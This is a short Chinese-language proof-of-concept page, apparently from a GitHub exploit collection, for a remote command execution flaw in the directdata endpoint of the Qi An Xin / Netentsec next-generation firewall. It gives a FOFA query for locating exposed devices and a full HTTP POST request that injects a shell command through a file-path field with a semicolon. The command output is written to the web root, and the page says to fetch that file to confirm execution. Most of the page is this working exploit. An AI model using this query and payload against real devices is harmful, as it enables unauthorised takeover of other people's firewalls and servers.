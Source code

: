 ## 奇安信网康下一代防火墙directdata存在远程命令执行漏洞

奇安信网康下一代防火墙（NGFW）是网康科技推出的一款可全面应对网络威胁的高性能应用层防火墙，存在远程命令执行，通过漏洞攻击者可以获取服务器权限。

## fofa
```
app="网康下一代防火墙"
```

## poc
```
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 160
Upgrade-Insecure-Requests: 1

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;id >/var/www/html/test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

![5655f30db3f659f378796e6839e606ca](https://github.com/wy876/POC/assets/139549762/68a44096-0939-4fd7-971f-b73cde261000)

然后访问https://xxxx.xxx/test.txt

发现，命令已经成功执行
![9e52fb8cbdc1cb4fcd479c2a56eb05c8](https://github.com/wy876/POC/assets/139549762/5227040a-13f1-4b7c-9d04-f22cbfd34404)

